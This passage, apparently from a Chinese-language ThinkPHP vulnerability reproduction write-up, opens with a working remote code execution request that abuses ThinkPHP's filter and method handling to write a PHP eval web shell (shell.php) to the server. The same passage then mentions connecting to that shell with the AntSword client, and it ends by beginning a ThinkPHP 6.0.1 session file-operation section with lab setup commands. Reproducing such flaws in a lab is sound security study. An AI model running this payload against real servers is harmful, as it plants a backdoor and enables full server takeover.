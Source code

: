     _method=__construct&filter[]=system&method=get&server[REQUEST_METHOD]=echo '<?php @eval($_POST[1]);?>' > shell.php

![]()

响应500，实际上上传成功

![]()

访问浏览器

![]()

蚁剑连接

![]()

## TP - 6.0.1 Session任意文件操作

使用Kali来一步一步部署6.0的tp

    
    
    # 安装compose并放到bin下  
    curl -sS https://getcomposer.org/installer | php  
    mv composer.phar /usr/local/bin/composer  
    # 换源  
    composer config -g repo.packagist composer https://mirrors.aliyun.com/composer/  
    # 安装thinkphp6.0  
    cd /var/www/html  
    composer create-project topthink/think tp6 6.0.1 --prefer-dist  
      
    # 依赖  
    sudo apt-get install php-mbstring  
    sudo apt-get install php-dom  
      
    # 启动  
    cd tp6  
    php think run -p 8000  
    # ！访问 ip:8000

![]()

![]()
